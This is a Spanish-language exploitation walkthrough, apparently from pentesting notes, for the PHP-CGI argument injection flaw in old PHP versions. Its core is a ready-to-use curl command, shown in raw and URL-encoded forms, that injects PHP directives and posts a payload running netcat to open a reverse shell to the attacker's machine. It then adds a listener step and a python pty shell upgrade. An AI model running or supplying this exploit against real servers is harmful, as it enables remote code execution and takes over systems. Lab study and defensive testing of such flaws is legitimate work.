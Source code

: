 
**- PHP CGI argument injection RCE**

La vulnerabilidad *PHP CGI argument injection que deriva en Remote Code Execution* afecta a las versiones PHP 5.3.12 y 5.4.x anteriores a la 5.4.2, y *explota una configuracion donde PHP está configurado como un script CGI* también conocido como PHP-CGI o PHP5-CGI.

La vulnerabilidad permite pasar argumentos de línea de comandos al intérprete PHP, vía URL hechas a mano de forma especial, resultando en la desactivación de varias directivas de protección PHP, las cuales luego son procesadas en el servidor por medio de nuestro payload PHP. Lo que deriva en RCE (Ejecución Remota de Comandos) y nos permite ejecutar el comando que nos de la gana.

Nosotros explotaremos la vulnerabilidad para conseguir una reverse shell de netcat.

La versión vulnerable de PHP que usaremos será la 5.2.4

Proove of Concept (PoC) usando curl. Sin usar URL encoding, en el comando se puede ver que le estamos pasando argumentos al intérprete PHP mediante la flag -d. Lo que permite manipular los valores asociados a la configuración de PHP, disminuyendo de ésta forma la seguridad PHP, particularmente los parámetros *allow_url_include, safe_mode y auto_prepend_file*, además, para desactivar varias directivas PHP, incluimos nuestro payload como parte del *--data-binary* del comando curl. 

```
curl -i -s -k -X 'POST' --data-binary "<?php system (\"nc IPkali LPORT -e /bin/sh\"); die; ?>" "http://IPobjetivo/cgi-bin/php5?-d+allow_url_include=on+-d+safe_mode=off+-d+suhosin.simulation=on+-d+disable_functions=""+-d+open_basedir=none+-d+auto_prepend_file=php://input+-d+cgi.force_redirect=0+-d+cgi.redirect_status_env=0+-n"
```

**Para que el intérprete pueda ejecutar la petición con éxito hay que URL encodear los carácteres especiales.**

```
(espacio) = + ó %20
(=) = %3d
(/) = %2f
(.) = %2e
(") = %22
(-) = %2d
(:) = %3a
```

**Y la petición quedaría así:

```
curl -i -s -k -X 'POST' --data-binary "<?php system(\"nc IPkali LPORT -e /bin/sh\"); die; ?>" "http://IPobjetivo/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mode%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d%22%22+%2dd+open_basedir%3dnone+%2dd+auto_prepend_file%3dphp%3a%2f%2finput+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"
```

Antes de realizar la petición habría que ponerse a la escucha con netcat en la máquina atacante por el LPORT que le digamos.

Después de ganar acceso, para obtener una shell semi-interactiva (si la víctima tiene python):

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

Sino hacer un tratamiento de la TTY.